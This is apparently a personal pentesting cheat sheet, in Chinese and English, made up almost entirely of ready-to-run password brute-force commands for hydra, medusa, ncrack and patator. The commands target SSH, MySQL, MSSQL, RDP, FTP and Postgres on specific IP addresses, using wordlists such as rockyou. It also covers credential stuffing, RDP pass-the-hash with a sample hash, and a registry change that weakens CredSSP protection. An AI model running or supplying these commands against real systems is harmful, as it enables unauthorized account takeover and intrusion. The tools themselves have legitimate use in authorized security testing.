 ## hydra

**ssh**

sudo hydra -l root -P wordlist.TXT ssh：//192.168.136.142

**mysql**

```sh
-l <user_string>
-L <user_file>
-p <password_string>
-P <password_file>

# 爆破mysql
hydra -l root -P ./password.txt -t 1 -e n -f -v 192.168.43.17 mysql -w 1
hydra -l root -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
hydra -L ./user.txt -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
# mssql
hydra -l sa -P password.txt -f mssql://39.99.149.148:1433/
hydra -L usernames.txt –P ./password.txt <target-ip> mssql

# 爆破ssh
hydra -l serlon -P password.txt 127.0.0.1 ssh     # 知道用户名不知道密码
hydra -l jan -P /opt/rockyou.txt ssh://10.10.100.180 # 知道用户名不知道密码
hydra -L userlist.txt -p 123456 192.168.0.227 ssh # 知道密码不知道用户名
hydra -l admin -p password 192.168.0.0/24 ssh     # 知道用户名和密码但不知道ip
hydra -C default.txt 192.168.0.227                # 知道一组成对的用户名和密码来撞库
hydra -L logins.txt -P pws.txt -M target.txt ssh  # 都不知道
hydra -l wenber -V -x 3:3:1 rdp://127.0.0.1:3389
## -x MIN:MAX:CHARSET  3 到 3 个字符, 1为数字
### 'a' for lowercase letters, 'A' for uppercase letters, '1' for numbers, and for all others, just add their real representation.
### -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
### -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
### -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
### -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-

```

| param   | Description                                                                     |
| ------- | ------------------------------------------------------------------------------- |
| -f      | exit after the first found login/password pair (per host if -M)                 |
| -F      | exit after the first found login/password pair for any host (for usage with -M) |
| -C FILE | colon separated "login:pass" format, instead of -L/-P options                   |
| -e nsr  | "n" for null password, additional checks,                                       |
|         | "s" try login as pass                                                           |
|         | "r" try the reverse login as pass                                               |
### FAQ

1. hydra [ERROR] freerdp: The connection failed to establish.
```sh
# update freerdp
kali_099_freerdp.sh
```

# rdp

远程桌面 要求的函数不受支持

```
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /t reg_dword /v AllowEncryptionOracle /d 2
```

## rdp/patator
```sh
# 图形界面使用
proxychains python3 patator.py rdp_login host=172.22.4.45 user=Adrian password=FILE0 0=/home/parallels/tool/rockyou.txt
```

## rdp/hydra

```sh
hydra rdp://192.168.1.1:3389 -l admin -p 123456 -V -F
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://192.168.1.1

hydra -L user.txt -P pwd.txt 172.22.9.26 rdp -F -vV -e ns
hydra 192.168.50.210 rdp -l admin -p 123456 -V -F
hydra 192.168.31.22 rdp -L /usr/share/wordlists/dirbuster/password2.txt -P /usr/share/wordlists/dirbuster/password1.txt -V -F
hydra -vV -l test -P password.txt -S rdp://192.168.127.130 -t 1
```

## rdp/御剑 RDP 爆破工具/超级弱口令检查工具/fscan/

## rdp/ncrack 3389 rdp 爆破

```sh
ncrack -p 3389 -v -user admin -pass 123456 192.168.52.0/24
ncrack -p 3389 -v -user admin -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx
ncrack -p 3389 -v -user admin -pass 123456Aa@@ 192.168.52.143

# -T<0-5> 越高越快
ncrack -p 3389 -v -user admin -P ./6位数字.txt 192.168.52.143 -T2 -oN output.txt
```


# medusa
medusa 比 hydra快一些
```bash
# FTP
medusa -h 192.168.1.1 -u admin -P /top1000_password.txt -M ftp -e ns -t 10 -f -r 0 -O ./result_ftp.txt
medusa -M ftp -h 192.168.135.121 -u zc -p top1000.txt
# ssh
medusa -M ssh -h 127.0.0.1 -u kali -P password.txt -n 22 -t 10 -O result.txt
medusa -M ssh -h 127.0.0.1 -u kali -P password.txt
# mysql
medusa -h 192.168.137.133 -u root -P /wordlist.txt -M mysql
# postgres
medusa -M postgres -H ./ip.txt -u postgres -n 5432 -P /tmp/pass.txt -e ns -T 255 -f -O /tmp/good.txt -r 0
# rdp
medusa -M rdp -m PASS:HASH -u Administrator -p 31D78236327B9619B14ED8EC9AB454C1
```

| params      | desc                                        |
| ----------- | ------------------------------------------- |
| -n [NUM]    | 使用非默认端口                              |
| -e [n/s/ns] | N 意为空密码，S 意为密码与用户名相同        |
| -t [NUM]    | 设定线程数量                                |
| -f          | 在任何主机上找到第一个账号/密码后，停止破解 |
| -r [NUM]    | 重试间隔时间，默认为 3 秒                   |
| -V          | 显示版本                                    |
